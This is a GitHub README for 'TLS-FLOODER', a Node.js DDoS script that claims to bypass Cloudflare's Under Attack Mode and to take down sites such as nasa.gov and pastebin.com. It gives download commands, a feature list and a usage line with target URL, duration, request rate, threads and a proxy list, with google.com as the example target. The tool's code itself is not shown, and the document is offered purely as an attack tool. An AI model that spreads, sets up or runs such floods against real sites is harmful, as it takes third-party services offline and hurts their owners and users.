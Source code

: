 `This script can take down sites that use cloudflare uam, and can also take down nasa.gov and pastebin.com sites. / tls-bypass.js was updated adding uam bypass along with flooder`

#
## First install the required modules

```bash
node setup.js
```
`Wait until the installation is complete`

## Next 

# Method Flooder x Bypass V3 High Request

# Update Flooder x bypass

- High Requests HTTP/2.0
- Bypass UAM HTTP/2.0
- Support %RAND%
- Support HTTP/1.1
- Bypass mode /2.0
- Smart mode /2.0

## How to use (git clone)

1. Download or git clone this repository:

    ```bash
    git clone https://github.com/DDoS-Leaks/TLS-FLOODER/
    ```

2. Navigate to the cloned repository:

    ```bash
    cd TLS-FLOODER
    ```

3. Run the `tls-bypass.js` script:

    ```bash
    node tls-bypass.js
    ```

## How to use (wget)

1. Download the `tls-bypass.js` script using wget:

    ```bash
    wget https://github.com/DDoS-Leaks/TLS-FLOODER/raw/main/tls-bypass.js
    ```

2. Run the `tls-bypass.js` script:

    ```bash
    node tls-bypass.js
    ```
    
## Run the script

```bash
node tls-bypass.js url time port rps thread proxy.txt bypass/flooder 
```

```bash
node tls-bypass.js https://google.com 300 443/80 120 10 http.txt flooder
```
